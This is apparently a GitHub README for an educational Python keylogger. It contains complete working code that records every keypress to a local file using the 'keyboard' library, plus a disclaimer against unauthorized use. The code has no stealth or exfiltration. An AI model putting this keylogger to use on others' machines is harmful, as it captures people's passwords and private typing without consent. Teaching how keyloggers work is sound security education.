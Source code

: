 # Python Keylogger 

## Overview

This repository is part of a cybersecurity coding series, demonstrating how a simple keylogger can be built using Python. The purpose is **educational**, to understand how keyloggers function in a controlled environment.  
## Features

- Logs keystrokes in real-time to a local file (`keystrokes2.txt`).
- Uses Python's `keyboard` library ( (pip install keyboard) 
- Designed for educational testing only.

## Code Example

```python
import keyboard

log_file = 'keystrokes2.txt'

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write(f'{event.name}\n')

keyboard.on_press(on_key_press)
keyboard.wait()
```

## Disclaimer

This keylogger is intended **only for educational purposes** . Unauthorized use on systems you do not own or have explicit permission to test on is illegal and unethical.



